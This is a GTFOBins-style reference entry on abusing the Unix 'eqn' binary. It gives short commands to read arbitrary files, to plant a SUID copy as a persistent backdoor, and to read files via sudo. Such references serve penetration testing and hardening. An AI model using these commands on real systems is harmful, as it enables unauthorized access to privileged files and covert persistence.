 # GTFOBin: eqn

The content is actually parsed and corrupted by the command, thus it may not be suitable for arbitrary files.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
eqn "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which eqn) .

LFILE=file_to_read
./eqn "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo eqn "$LFILE"
```